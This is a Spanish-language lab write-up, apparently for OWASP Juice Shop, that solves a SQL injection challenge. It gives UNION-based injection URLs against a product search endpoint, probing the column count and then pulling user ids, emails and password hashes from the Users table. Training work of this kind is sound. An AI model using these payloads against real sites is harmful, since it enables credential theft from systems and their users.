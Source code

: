 ***RESOLUCIÓN***. Los pasos para resolver el reto son.

Como habrás comprobado hay una tabla llamada ***Users***, que podemos ver en esta imagen.

![Users](../img/lab-25-D/202211241756.png)

En ella hay dos campos interesantes, los campos ***username*** y ***password***.

Vamos a utilizar la técnica ***UNION*** para obtener todos los registros de dicha tabla.

Activamos ***OWASP ZAP*** y probamos lo siguiente.
```
https://192.168.20.80:3000/rest/products/search?q=')) UNION SELECT '1' FROM users--
```

Obtenemos un error, así que volvemos a probar con diferentes números de columnas hasta acertar. La instrucción de inyección correcta es.
```
https://192.168.20.80:3000/rest/products/search?q=ewrwerwewerwerwer')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8', '9' FROM users--
```

Como ya sabemos los campos que forman la tabla ***Users***, modificamos la consulta anterior de la siguiente forma.
```
https://192.168.20.80:3000/rest/products/search?q=ewrwerwewerwerwer')) UNION SELECT id, username, email, password, '5', '6', '7', '8', '9' FROM users--
```

En la siguiente imagen podemos ver los siguiente.

* En el campo ***id*** de la unión tenemos el ***id*** del usuario.
* En el campo ***name*** de la unión tenemos el ***username***, que para todos los usuarios está en blanco.
* En el campo ***description*** de la unión tenemos el ***email***.
* En el campo ***price*** de la unión tenemos el ***password***, que al parece está en la forma de un HASH.
